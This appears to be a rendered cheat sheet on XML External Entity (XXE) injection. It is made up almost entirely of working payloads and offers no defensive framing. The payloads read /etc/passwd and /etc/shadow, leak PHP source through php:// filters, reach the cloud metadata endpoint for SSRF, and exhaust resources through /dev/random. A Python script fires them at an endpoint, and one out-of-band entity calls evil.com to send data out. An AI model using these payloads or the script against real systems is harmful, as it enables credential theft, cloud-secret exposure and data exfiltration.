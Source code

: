 
## **XML EXTERNAL ENTITY (XXE) INJECTION** 📄🌐

### **Basic XXE Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><name>&xxe;</name></user>
```

### **Advanced XXE Techniques:**

#### **File Reading:**
```xml
<!ENTITY xxe SYSTEM "file:///etc/shadow">
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
```

#### **SSRF Attacks:**
```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

#### **Denial of Service:**
```xml
<!ENTITY xxe SYSTEM "file:///dev/random">
```

### **XXE Automation Script:**
```python
import requests

def xxe_test(xml_endpoint):
    payloads = [
        # Basic file read
        """<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><root>&test;</root>""",
        
        # SSRF attempt
        """<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "http://169.254.169.254/">]><root>&test;</root>""",
        
        # Out-of-band data exfiltration
        """<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % xxe SYSTEM "http://evil.com/xxe">%xxe;]><root></root>"""
    ]
    
    for payload in payloads:
        headers = {'Content-Type': 'application/xml'}
        response = requests.post(xml_endpoint, data=payload, headers=headers)
        
        if "root:" in response.text or "daemon:" in response.text:
            print(f"[!] XXE Vulnerability Found!")
            return True
            
    return False
```

---